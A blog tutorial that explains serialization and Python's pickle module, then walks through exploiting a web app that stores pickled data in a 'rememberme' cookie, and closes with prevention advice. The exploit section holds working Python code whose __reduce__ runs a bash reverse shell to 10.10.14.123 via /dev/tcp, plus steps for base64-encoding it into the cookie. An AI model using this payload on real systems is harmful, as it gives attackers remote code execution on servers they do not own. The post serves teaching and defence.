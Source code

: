 ```yaml
---
layout: post
title: "Deserialization Attack With Pickle"
subtitle: "And a practical use-case"
date: 2022-04-27 09:00:00 -0400
background: '/img/bg-about.jpg'
---
```

# Deserialization Attack Using Python's Pickle Module

![python-pickle-logo.png](/img/posts/serialization-pickle/python-pickle-800x200.png)

## Serialization explained

Serialization is a process of converting an object into a stream of bytes to store the object or transmit it to memory, a database, or a file.
 
![packing-serialization](/img/posts/serialization-pickle/c-sharp-serialization.png)
 
This is done for a variety of reasons, some of them being :

-Persistence: storing an object in its current state for later retrieval; eg. App memory gets cleared from RAM upon exit, but the application has serialized and saved the objects to disk before it exited - so it can easily retrieve them later

-Ease of communication: two machines running the same code can use serialized objects for communication - one machine can build an object and serialize it and then send it over to the other machine

-Network transmission: serialized objects are used by web applications to ensure faster data transmission and integrity

## Python's pickle module

The Pickle module is native to Python, and "Pickling" is the process where a Python object is converted into a byte stream, and "Depickling" is the opposite - where a byte stream is converted back to an object.

## Practical use-case

Consider a web application which uses pickled data as the cookie value.
  
![request-burp](/img/posts/serialization-pickle/request.png)

How can we guess this is pickled data? By decoding the "rememberme" cookie value, its visible that it looks like a pickled value:
 
![rememberme-cookie-value](/img/posts/serialization-pickle/rememberme-cookie-value.png)
 
We can now generate our pickled object to get code execution. This is a sample python code which we can use:
```
import cPickle
import os
class exploit(object):
  def __reduce__(self):
    return (os.system,("/bin/bash -i >& /dev/tcp/10.10.14.123/80 0>&1",))
e = exploit()
print cPickle.dumps(e)
```
Note the result when running the code :
  
![pickled-object](/img/posts/serialization-pickle/pickled-object.png)
 
Since this object is being used by the web application, to ensure data integrity - it is base64 encoded:
  
![b64-pickled_object](/img/posts/serialization-pickle/b64-pickled_object.png)
  
Once this is done we can simply set up our listener and paste the b64 payload into the "rememberme" cookie value and after sending the request it will result in code execution - and in this case a reverse shell.

## Prevention
It is widely considered that unserializing data from an untrusted source or giving the users ability control over the objects is a bad idea.

The pickle module is NOT intended to be secure against erroneous or maliciously constructed data. Never unpickle data received from an untrusted or unauthenticated source.

If the application needs to ensure that the data has not been tampered with - consider using HMAC ((Hash-based Message Authentication Code) - which is available as a separate Python module.